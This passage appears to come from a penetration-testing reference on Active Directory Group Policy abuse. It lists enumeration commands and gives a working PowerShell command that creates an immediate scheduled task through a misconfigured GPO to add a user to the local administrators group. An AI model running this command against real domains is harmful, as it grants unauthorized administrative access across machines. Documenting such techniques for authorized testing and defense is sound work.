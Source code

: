 **Policies Applied to a Given Computer**: To see what policies are applied to a particular computer, commands like `Get-DomainGPO` can be utilized.

**OUs with a Given Policy Applied**: Identifying organizational units (OUs) affected by a given policy can be done using `Get-DomainOU`.

### Abuse GPO - New-GPOImmediateTask

Misconfigured GPOs can be exploited to execute code, for example, by creating an immediate scheduled task. This can be done to add a user to the local administrators group on affected machines, significantly elevating privileges:
```powershell
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```
### GroupPolicy module - Abuse GPO


